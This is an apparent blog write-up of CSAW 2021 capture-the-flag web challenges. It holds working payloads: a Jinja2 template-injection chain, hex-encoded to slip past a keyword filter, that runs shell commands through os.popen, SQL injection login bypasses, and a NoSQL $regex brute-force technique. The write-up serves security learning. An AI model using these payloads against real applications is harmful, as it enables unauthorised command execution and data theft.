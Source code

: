 ```yaml
---
title: "CSAW - 2021"
date: 2021-09-14T13:13:43+07:00
draft: false 
---
```


# Ninja
# Type: SSTI

I test `value` param with `{{7*7}}` and it returns `49`.

```
http://web.chal.csaw.io:5000/submit?value={{7*7}}
```

Okay, RCE timeeeeee~

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}
```
This payload import class `os` and executes `ls -la` from popen. Send this payload and we get the response:
```
Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base
```

It's not hard to bypass this filters
- With `_` we can bypass by `\x5f` (hex encode)
- With `os` we can bypass by `\x6f\x73`
- With `.` we can bypass by `[]` or `attr`

But it still block my request, so I hex encode all string and it works :))
```python
{{
    request
    |attr('\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e')
    |attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f')
    |attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f')
    |attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f')('\x6f\x73')
    |attr('\x70\x6f\x70\x65\x6e')('cat flag.txt')
    |attr('read')()
}}
```
it equivalents to
```python
{{
    request
    |attr('application')
    |attr('__globals__')
    |attr('__getitem__')('__builtins__')
    |attr('__getitem__')('__import__')('os')
    |attr('popen')('cat flag.txt')
}}
```

And we got flag here...

# no-pass-needed
# Type: SQL injection

I'm so lucky firstblood this challenge when i test my familiar payload, and it works.

```
username=admin'or(1)--+-&password=a
```
This challenge replace some strings. When you duplicate this you can bypass it easily
```
username=adadminmin'--&password=a
```
And we got flag here...

# securinotes
# Type: nosql injection

This chall is closed, so i only tell you idea to solve it.

Register one account and login, then catch this request via burpsuite and I found some public Meteor methods (`notes.count`, `notes.add`, `notes.remove`)

```javascript
// $ne is "not equal"
[{"body":{"$ne":""}]

[{"body":{"$regex":"flag.*"}]
// It return true, else when you use other char it will return false
// Here we can change $ne to $regex to bruteforce the flag

[{"body":{"$regex":"flag{`next_char`.*"}]
```

I use console from devtools to brute it, and got flag...